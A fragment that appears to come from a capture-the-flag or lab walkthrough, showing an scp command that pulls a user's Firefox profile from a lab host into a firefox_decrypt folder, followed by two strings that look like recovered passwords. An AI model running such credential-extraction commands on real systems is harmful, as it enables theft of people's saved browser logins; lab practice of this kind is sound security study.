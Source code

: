 scp -o StrictHostKeyChecking=no -r elliot@192.168.56.124:/home/elliot/.mozilla/firefox/esmhp32w.default-default /home/kali/firefox_decrypt/



S8Y389KJqWpJuSwFqFZHwfZ3GnegUa
wJ9`"Lemdv9[FEw-
